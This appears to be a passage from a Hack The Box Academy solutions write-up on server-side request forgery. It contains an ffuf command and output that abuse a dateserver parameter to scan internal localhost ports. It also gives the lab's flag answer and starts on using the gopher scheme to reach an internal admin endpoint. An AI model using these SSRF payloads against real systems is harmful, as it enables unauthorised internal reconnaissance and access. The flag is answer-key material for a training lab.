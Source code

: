```shell
ffuf -w ./ports.txt:FUZZ -u http://STMIP/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ ffuf -w ./ports.txt:FUZZ -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.201.127/index.php
 :: Wordlist         : FUZZ: /home/htb-ac-594497/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Failed to connect to

________________________________________________

80                      [Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 4682ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 69ms]
8000                    [Status: 200, Size: 37, Words: 1, Lines: 1, Duration: 75ms]

:: Progress: [10000/10000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```

Students will find additional web applications running on ports `80`, `3306`, and `8000`. After testing each of the available port numbers, students will find that a server-side request forgery to `http://127.0.0.1:8000` returns the flag:

![[HTB Solutions/CBBH/z. images/d656f42f18846a1663c113a5cb5596df_MD5.jpg]]

Answer: `HTB{61ea58507c2b9da30465b9582d6782a1}`

# Exploiting SSRF

## Question 1

### "Exploit the SSRF vulnerability to identify an additional endpoint. Access that endpoint to obtain the flag."

Students need to send a POST request to `/admin.php` containing the password in the `adminpw` POST parameter. However, because there is no way to send this request using the `http://` URL scheme, students need to use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket.
